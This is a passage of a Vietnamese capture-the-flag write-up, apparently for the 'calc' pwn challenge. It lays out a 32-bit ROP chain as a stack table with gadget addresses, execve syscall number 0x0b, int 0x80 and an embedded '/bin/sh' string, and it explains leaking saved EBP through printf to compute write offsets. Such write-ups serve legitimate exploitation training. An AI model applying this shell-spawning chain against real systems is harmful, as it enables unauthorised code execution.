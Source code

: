 - Ta sẽ thiết kế stack như sau:

|    ADDRESS                     |                 OFFSET                        |   VALUE         | INSTRUCTION     |
| :-------------:                | :-------------------------------------------: |:---------------:| :-------------: | 
|__[return adress]__ EBP - 0x4   | 361                                           | 0x0805c34b      |  pop eax; ret                   |  
|     EBP - 0x8                  | 362                                           | 0x0b            |                                 | 
|     EBP - 0xc                  | 363                                           | 0x080701d0      |  pop edx; pop ecx; pop ebx; ret | 
|     EBP - 0x10                 | 364                                           | 0x00            |                                 |
|     EBP - 0x14                 | 365                                           | 0x00            |                                 |
|     EBP - 0x18                 | 366                                           | __[offset 368]__|  address of "/bin/sh"           | 
|     EBP - 0x1c                 | 367                                           | 0x08049a21      |     int 0x80                    | 
|     EBP - 0x20                 | 368                                           | 0x6e69622f      |      "/bin"                     | 
|     EBP - 0x24                 | 369                                           | 0x0068732f      |      "/sh\x00"                  |  

- Cần tính địa chỉ của `offset 368` để đưa vào `ebx`, ta có thể tính được bằng cách leak địa chỉ của `save EBP`, tính xem `save EBP` nằm ở offset bao nhiêu và suy ra địa chỉ của offset 368.
- Đặt breakpoint ngay trước lệnh printf của hàm calc() từ đó tính xem để leak giá trị trên `save EBP` thì cần offset bao nhiêu (`return address` và vùng ta muốn ghi ROP ngay sau nên tính được offset của `save EBP` => offset của `return address` và vùng còn lại - __ĐÂY CŨNG LÀ CÁCH TÍNH OFFSET NHỮNG NƠI TA MUỐN GHI__).

![stack1.png](./images/stack1.png)
